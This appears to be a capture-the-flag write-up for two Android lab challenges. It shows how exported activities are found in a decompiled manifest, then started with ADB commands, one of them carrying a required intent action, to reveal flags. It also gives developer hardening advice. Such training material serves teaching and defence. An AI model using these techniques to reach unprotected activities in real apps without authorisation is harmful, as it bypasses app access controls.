




## Challenge: Basic Exported Activity
**Category:** Android Security   
**Author:** Nephat

### Challenge Description
The challenge involves identifying and interacting with an exported activity within an Android application to retrieve a flag. The target activity is `io.hextree.attacksurface/.activities.Flag1Activity`.

### Tools Used
- **ADB (Android Debug Bridge)** - For launching and interacting with Android activities
- **APKTool** - For decompiling the APK and analyzing the structure
- **JADX** - For viewing the decompiled source code (can be installed on Kali Linux using `sudo apt install jadx`)

### Walkthrough

### 1. Initial Analysis
First, we need to decompile the APK to understand its structure. Using JADX-GUI:



### 2. Manifest Analysis
In the `AndroidManifest.xml`, we identified the target activity with the following configuration:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag1Activity"
    android:exported="true"/>
```

The `android:exported="true"` attribute indicates that this activity can be accessed externally, making it our target for this challenge.

### 3. Exploitation
With the exported activity identified, we can launch it directly using ADB, bypassing any potential security checks in the main application flow:

```bash
adb shell am start -n io.hextree.attacksurface/.activities.Flag1Activity
```

### 4. Result
Upon executing the command, the Flag1Activity launches and displays the flag:



### Key Takeaways
1. Android applications may contain exported activities that can be accessed directly through ADB
2. The `AndroidManifest.xml` file is crucial for identifying potential entry points in Android applications
3. Activities marked as `exported="true"` can pose security risks if not properly protected

### Security Implications
This challenge highlights a common security misconfiguration in Android applications where sensitive activities are accidentally exposed. In real-world applications, developers should:
- Only export activities that are meant to be accessed by other applications
- Implement proper authentication mechanisms for sensitive activities
- Regularly audit the Android Manifest for security misconfigurations


### Tools Installation
```bash
# Install JADX on Kali Linux
sudo apt install jadx

# Verify ADB installation
adb --version
```


# Challenge 2:Intent with extras


### Challenge Description

Call this activity and match the conditions to get flag 2 Intent with extras

### Solution

I tried launching `Flag2Activity` using ADB by first enabling the activity with:

```bash
adb shell pm enable io.hextree.attacksurface/.activities.Flag2Activity


Then, I started the activity with:


adb shell am start -n io.hextree.attacksurface/.activities.Flag2Activity
```


 
### Activity code review

I checked the activity code for the application and found that the program checks for:

```java
if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {

```
If the condition is fulfilled the activity with the flag is launched.
We can solve this by adding  the -a to include the action


###

```bash
└─$ adb shell am start -n io.hextree.attacksurface/.activities.Flag2Activity -a io.hextree.action.GIVE_FLAG
```


### Conclusion

The solution to the "Flag 2 - Intent with Extras" challenge revolves around understanding how intents work in Android and how the app checks for specific intent actions. By sending the correct intent with the specified action, we can trigger the reveal of the flag. This highlights the importance of intent-based interactions in Android security, especially in scenarios where actions and extras are used to control app flow and behavior.
